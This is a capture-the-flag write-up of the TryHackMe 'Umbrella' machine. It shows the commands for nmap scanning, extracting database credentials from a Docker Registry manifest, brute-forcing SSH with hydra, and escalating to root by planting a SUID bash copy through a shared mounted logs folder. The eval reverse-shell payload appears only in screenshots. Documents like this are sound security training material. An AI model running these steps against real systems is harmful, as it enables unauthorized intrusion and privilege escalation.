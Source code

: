 ```yaml
---
title: "TryHackMe | Umbrella"
layout: post
date: 2024-02-05 16:00
tag: 
- TryHackMe
- Pentesting
- Docker
- Linux
- Container
- EVAL
- RCE
image: https://tryhackme-images.s3.amazonaws.com/room-icons/e8d4455b09a1c0b71474cf6137805c48.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

Umbrella is a medium TryHackMe machine which runs the Docker Registry API V2 at port 5000. Where we can extract some MySQL DB credentials. And exploiting an eval function will give us a revshell as root in a Docker container. The root part is about exploiting a shared logs folder to trigger a root shell.

---

# Nmap

```bash
nmap -A -T4 10.10.46.174            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-08 09:56 +01
Nmap scan report for 10.10.46.174
Host is up (0.063s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f0:14:2f:d6:f6:76:8c:58:9a:8e:84:6a:b1:fb:b9:9f (RSA)
|   256 8a:52:f1:d6:ea:6d:18:b2:6f:26:ca:89:87:c9:49:6d (ECDSA)
|_  256 4b:0d:62:2a:79:5c:a0:7b:c4:f4:6c:76:3c:22:7f:f9 (ED25519)
3306/tcp open  mysql   MySQL 5.7.40
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.40
|   Thread ID: 5
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SupportsCompression, LongColumnFlag, SwitchToSSLAfterHandshake, ODBCClient, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, InteractiveClient, IgnoreSigpipes, FoundRows, Speaks41ProtocolNew, SupportsTransactions, SupportsLoadDataLocal, LongPassword, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: \x15D\x083T\x1EZh\x19?C;4U#-\x1A2
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate
| Not valid before: 2022-12-22T10:04:49
|_Not valid after:  2032-12-19T10:04:49
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesnt have a title.
8080/tcp open  http    Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have four open ports. Let's check the port 8080 :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208100136.png>)

We have the Docker Registry API V2 at port 5000. There is a doc about pentesting that service :

[https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry)

Now let's enumerate that docker registry :

```bash
curl http://10.10.46.174:5000/v2/_catalog
```

![alt text](<../../../assets/images/THMPics/Pasted image 20240208101144.png>)

Using the bellow command we can see the DB password :

```bash
curl -s http://10.10.46.174:5000/v2/umbrella/timetracking/manifests/latest
```

![alt text](<../../../assets/images/THMPics/Pasted image 20240208104516.png>)

Using those credentials we can enumerate the MySQL DB :

```bash
mysql -h 10.10.46.174 -u root -p
```

![alt text](<../../../assets/images/THMPics/Pasted image 20240208104901.png>)

![alt text](<../../../assets/images/THMPics/Pasted image 20240208110116.png>)

Now we can login with a user from the users above :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208104843.png>)

Let's try if we can use those credentials to login via SSH :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208110424.png>)

Hydra can do the job for us :

```bash
hydra -L users.txt -P passwords.txt ssh://10.10.46.174
```

Boom! we found a valid login creds :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208111155.png>)

And we're in as Claire user :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208110458.png>)

We can now read the user flag :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208110539.png>)

Checking the source code of the app in port 8080, we can see that it uses the eval function which we know is vulnerable to RCE :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208113152.png>)

[https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)

![alt text](<../../../assets/images/THMPics/Pasted image 20240208113022.png>)

Using the payload from the POC above, we can get a revshell as the root user in the Docker container :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208112830.png>)

![alt text](<../../../assets/images/THMPics/Pasted image 20240208113212.png>)

We see that there is a logs directory mounted in our user's home :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208113727.png>)

The same directory is in root :

![alt text](<../../../assets/images/THMPics/Pasted image 20240208113645.png>)

So whatever file we create in the root shell, will be found the in the same directory in the user's shell. So we can copy `/bin/bash` to the `/logs` folder and give it SUID perm :

```bash
cp /bin/bash .
chmod 777 bash
chmod u+s bash
```

![alt text](<../../../assets/images/THMPics/Pasted image 20240208115100.png>)

And voilà we are root!

![alt text](<../../../assets/images/THMPics/Pasted image 20240208114151.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>